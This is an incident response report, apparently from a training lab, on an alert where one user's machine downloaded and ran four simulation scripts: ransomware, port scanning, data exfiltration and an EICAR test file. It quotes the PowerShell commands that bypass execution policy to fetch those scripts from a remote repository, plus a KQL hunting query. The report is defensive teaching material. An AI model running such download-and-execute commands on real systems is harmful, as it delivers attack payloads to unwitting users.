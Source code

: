 ## Incident Response Report: PowerShell Suspicious Web Request

Incident ID: IR20250623-001

Date: June 23, 2025

---

### Detection and Analysis

On June 23, 2025, an incident titled "**PowerShell Suspicious Web Req.**" was triggered on **windows-target-1**. The alert indicated that **four different PowerShell scripts** were downloaded via `Invoke-WebRequest` commands. The incident was triggered by **one user** on this single device.

The following PowerShell commands were executed:

- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1`

Upon contacting the affected user, they stated that they attempted to install "free software," observed a momentary black screen, and then "nothing happened."

Further investigation using **Microsoft Defender for Endpoint (MDE)** confirmed that the downloaded scripts did run. The following KQL query was used to verify script execution:

Code snippet;
``sql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine`

The downloaded scripts were submitted to the malware reverse engineering team, who provided the following analysis:

- **pwncrypt.ps1:** A PowerShell script simulating ransomware encryption.
- **eicar.ps1:** A PowerShell script designed to generate the EICAR test file for antivirus testing.
- **portscan.ps1:** A PowerShell script for performing network port scanning.
- **exfiltratedata.ps1:** A PowerShell script simulating data exfiltration.

---

### Containment, Eradication, and Recovery

1. The affected machine, **windows-target-1**, was immediately **isolated** in Microsoft Defender for Endpoint.
2. A full anti-malware scan was initiated on the isolated machine.
3. After the scan completed with no detected threats, the machine was **removed from isolation**.

---

### Post-Incident Activities

1. The affected user was enrolled in **additional cybersecurity awareness training**, and the organization's training package with KnowBe4 was upgraded.
2. Implementation of a new policy restricting PowerShell usage for non-essential users has begun to prevent similar incidents.
